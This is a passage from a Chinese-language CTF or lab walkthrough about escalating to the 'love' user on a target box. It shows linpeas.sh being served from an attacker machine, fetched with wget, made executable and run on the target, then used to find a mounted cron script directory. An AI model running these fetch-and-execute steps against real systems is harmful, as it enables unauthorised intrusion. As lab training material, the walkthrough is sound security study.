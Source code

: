

### 4.获得`love`权限

没扒拉到东西，先取个`linpeas.sh`脚本扫一下

```shell
kali└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.31.116 - - [09/Aug/2025 10:48:03] "GET /linpeas.sh HTTP/1.1" 200 -

/tmp # wget 192.168.31.126/linpeas.sh
Connecting to 192.168.31.126 (192.168.31.126:80)
linpeas.sh           100% |************************************************************************|  808k  0:00:00 ETA
/tmp # chmod +x linpeas.sh
/tmp # ./linpeas.sh
```

通过`linpeas.sh`脚本发现可疑目录挂载：将`/love/script`目录挂载到了`/script`（看群主的WP才知道）

```
╔══════════╣ Interesting Files Mounted
239 231 0:23 /love/script /script rw,nosuid,nodev - tmpfs tmpfs rw
240 231 8:1 /home/alfonso/.local/share/docker/containers/45df5690b1c3614e3cd25bbb3d5c0fad58e549016c0bca12e3f421e3b1fc1c70/resolv.conf /etc/resolv.conf rw,relatime - ext4 /dev/sda1 rw,errors=remount-ro
241 231 8:1 /home/alfonso/.local/share/docker/containers/45df5690b1c3614e3cd25bbb3d5c0fad58e549016c0bca12e3f421e3b1fc1c70/hostname /etc/hostname rw,relatime - ext4 /dev/sda1 rw,errors=remount-ro
242 231 8:1 /home/alfonso/.local/share/docker/containers/45df5690b1c3614e3cd25bbb3d5c0fad58e549016c0bca12e3f421e3b1fc1c70/hosts /etc/hosts rw,relatime - ext4 /dev/sda1 rw,errors=remount-ro
244 233 0:5 /random /dev/random rw,nosuid,relatime master:2 - devtmpfs udev rw,size=997456k,nr_inodes=249364,mode=755
245 233 0:5 /full /dev/full rw,nosuid,relatime master:2 - devtmpfs udev rw,size=997456k,nr_inodes=249364,mode=755
246 233 0:5 /tty /dev/tty rw,nosuid,relatime master:2 - devtmpfs udev rw,size=997456k,nr_inodes=249364,mode=755
247 233 0:5 /zero /dev/zero rw,nosuid,relatime master:2 - devtmpfs udev rw,size=997456k,nr_inodes=249364,mode=755
248 233 0:5 /urandom /dev/urandom rw,nosuid,relatime master:2 - devtmpfs udev rw,size=997456k,nr_inodes=249364,mode=755

```

结合`/var/log`下`access.yml、chat`中内容，知道每`5分钟`执行了`cron`任务，任务路径是`/home/love/script`，前面已知`/love/script`目录被挂载到了`/script`。

```shell
/var/log # ls
access.yml  chat
/var/log # cat chat
Kevin: Love be careful what you do.
A.love: I don't know Kevin, it's just a moment.
Kevin: Remove that now.
A.Love: Go to.
/var/log # cat access.yml
2023-08-31 10:15:42 - Usuario: jsmith - Accion: Inicio de sesion exitoso
2023-08-31 11:20:18 - Usuario: a_doe - Accion: Acceso a la carpeta /datos/confidenciales
2023-08-31 12:45:29 - Usuario: s_miller - Accion: Intento de acceso no autorizado
2023-08-31 14:30:05 - Usuario: jdoe - Accion: Creación de archivo nuevo_reporte.txt
2023-08-31 15:10:22 - Usuario: r_jones - Accion: Cierre de sesion

2023-08-31 16:55:11 - Usuario: l_smith - Accion: Edicion de archivo informe_trimestral.docx
2023-08-31 18:02:45 - Usuario: jbrown - Accion: Eliminacion accidental del archivo importante.pdf
2023-08-31 19:40:30 - Usuario: c_wilson - Accion: Copia de archivos a la carpeta compartida /datos/publicos
2023-08-31 20:15:17 - Usuario: m_johnson - Accion: Cambio de contrasena exitoso
```